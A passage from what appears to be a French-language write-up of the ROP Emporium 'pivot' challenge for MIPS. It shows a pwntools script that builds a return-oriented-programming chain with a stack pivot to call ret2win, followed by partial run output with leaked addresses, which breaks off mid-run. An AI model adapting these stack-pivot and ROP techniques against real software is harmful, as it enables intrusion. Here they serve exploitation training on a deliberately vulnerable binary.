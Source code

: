 ```python

# load t0 with offset btw foothold and ret2win
PL+=p32(g_load_t0_and_call) # next gadget
PL+=p32(0xbbbbbbbb)         # junk
PL+=p32(off_ret2win)        # offset 

PL+=p32(g_call_t0t1)        # call (t0+t1)

io.sendlineafter(b"> ",PL)

log.info("ETAPE 1 / pivot")
# MESSAGE 2 : pivot
# Offset avant ecrasement de l'adresse de la sauvagarde de sp
offset=0x20

PL =b"A"*offset
PL+=p32(leak)                 # Va dans fp
# move sp, fp; lw ra, (sp+8); lw fp, (sp+4); jr ra; addiu sp, sp, 0xc
PL+=p32(g_pivot)              # sp <= fp ; ra <= [leak+4]; fp <= [leak]; jr ra

log.info(f"Payload size : 0x{len(PL):x}")
log.info(PL.hex())
io.sendlineafter(b"> ",PL)

'''
# This line is read by prio gadget
PL+=p32(g_call_with_a0)    # t9 => next gadget for g_write_s1s0
PL+=p32(0xdeadbeef)        # junk
PL+=p32(print_file)        # t9 for g_call_with_a0
PL+=p32(bssaddr)           # t0 for g_call_with_a0
'''

io.interactive()
io.recvuntil(b"ROPE")
flag=io.recvline().decode()
log.success(f"flag : ROPE{flag}")
io.close()
```

### Déroulement

    [*] '/w/ropemporium/mipsel/07_pivot/pivot_mipsel'
        Arch:     mips-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)
        RUNPATH:  b'.'
    [*] '/w/ropemporium/mipsel/07_pivot/libpivot_mipsel.so'
        Arch:     mips-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      PIE enabled
    [+] Starting local process '/w/ropemporium/mipsel/07_pivot/pivot_mipsel': pid 106
    [*] got_foothold   = 0x412060
    [*] leak           = 0x3fda6f08
    [*] adr ret2win    = 0xd38
    [*] adr foothold   = 0x9c0
    [*] offset ret2win = 0x378
    [*] .bss address   = 0xbssaddr=412090
    [*] Message 1
    [*] ETAPE 1 / pivot
